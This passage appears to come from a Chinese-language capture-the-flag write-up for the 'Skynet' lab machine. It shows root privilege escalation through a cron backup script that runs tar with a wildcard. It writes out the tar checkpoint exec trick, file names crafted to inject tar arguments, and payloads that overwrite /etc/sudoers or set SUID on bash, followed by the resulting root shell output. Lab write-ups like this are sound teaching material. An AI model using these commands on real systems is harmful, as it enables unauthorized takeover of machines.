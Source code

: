 发现有定时任务


```bash
$ cat backup.sh                                                                                           
cat backup.sh                                                                                             
#!/bin/bash                                                                                               
cd /var/www/html                                                                                          
tar cf /home/milesdyson/backups/backup.tgz *

```

该脚本是 tar 将` /var/www/html `下的均备份 保存到`/home/milesdyson/backups/backup.tgz`
tar 提权方式为

```bash
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

是由两个参数来

- `checkpoint[=NUMBER]` — 此选项每 `NUMBER` 条记录显示进度消息（默认值为 10）
- `checkpoint-action=ACTION` — 此选项在每个检查点上执行所述操作

由于该脚本有 `*` 所以可通过文件名传参

```bash
touch "/var/www/html/--checkpoint-action=exec=sh sudo.sh"
touch "/var/www/html/--checkpoint=1"
```

![图片6](https://raw.githubusercontent.com/tac-eL/tacel.github.io/img/2024/7/12/6.png)

建立这两个文件名



sudo.sh有多种方式

- `echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers'> sudo.sh`

- `echo "#!/bin/bash\nchmod +s /bin/bash" > sudo.sh`

- `echo "cp /bin/bash /tmp/nroot && chmod +s /tmp/nroot" > sudo.sh `该脚本的执行结果将创建一个实质为bash副本的 SUID 二进制文件 我们可以使用 `-p`标志执行该SUID文件

```bash
sudo -l
User www-data may run the following commands on skynet:
    (root) NOPASSWD: ALL

$ su
su
Password:
su: Authentication failure

$ sudo su
sudo su
root@skynet:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root)

echo "cp /bin/bash /tmp/nroot && chmod +s /tmp/nroot" > sudo.sh

$ ./nroot -p
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)

bash-4.3$ /bin/bash -p
```
